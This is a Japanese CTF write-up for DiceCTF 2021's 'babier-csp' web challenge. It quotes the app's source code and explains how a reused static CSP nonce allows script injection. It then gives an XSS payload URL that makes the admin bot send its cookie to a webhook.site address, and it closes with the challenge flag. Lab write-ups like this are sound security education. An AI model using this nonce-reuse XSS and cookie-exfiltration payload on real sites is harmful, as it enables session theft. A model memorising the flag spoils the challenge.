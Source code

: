 # Writeup

[babier-csp.dicec.tf](https://babier-csp.dicec.tf/)にアクセスする。

![](img/2021-02-20-16-48-15.png)

View Fruit をクリックすると、`https://babier-csp.dicec.tf/?name=orange`といった`name`クエリに入っている文字が表示される。ソースコードは以下。

```js
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
})
```

`name`にスクリプトタグを入力してXSSできないか調べてみる。

* https://babier-csp.dicec.tf/?name=%3Cscript%3Ealert(0);%3C/script%3E 

すると、開発者ツールに以下のメッセージが出ていた。

```
Refused to execute inline script because it violates the following Content Security Policy directive
```

どうやら、スクリプトタグについている`nonce`が一致していないとブロックされるらしい。

以下のように`nonce`を含めると任意のスクリプトを実行できることがわかる。

* https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=LRGWAXOY98Es0zz0QOVmag==%3Ealert(0);%3C/script%3E

問題文に

> The admin will set a cookie secret equal to config.secret in index.js.

とあるので、[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)にアクセスし、以下のURLを入力する。

```url
https://babier-csp.dicec.tf/?name=<script%20nonce="LRGWAXOY98Es0zz0QOVmag==">%20window.open("https://webhook.site/485d646e-854c-4699-b351-86540967fce7?q="%2Bdocument.cookie);</script>
```

これにより、Admin Botがsecretをクエリ文字列にいれてWebhookにアクセスする。

![](img/2021-02-06-22-11-32.png)

secret が分かったので、https://babier-csp.dicec.tf/{secret} にアクセスする。ソースコードを見るとフラグが書かれていた。

![](img/2021-02-06-22-11-11.png)

<!-- dice{web_1s_a_stat3_0f_grac3_857720} -->
